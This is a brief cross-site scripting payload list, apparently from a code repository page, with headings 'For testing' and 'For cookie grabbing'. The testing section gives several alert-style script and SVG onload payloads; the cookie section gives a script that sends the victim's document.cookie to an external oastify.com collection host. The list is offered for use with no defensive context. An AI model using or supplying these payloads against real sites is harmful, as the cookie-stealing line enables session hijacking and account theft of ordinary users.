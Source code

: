 #### For testing.
```js
<script>alert(1)</script>
<svg/ onload=alert(123)//
<script onclick="alert(1)">
```
#### For cookie grabbing.
```js
<script>document.location='https://r91uwnam29s3c1jdsyc8t7t34ualyfm4.oastify.com//'+document.cookie</script> 
```
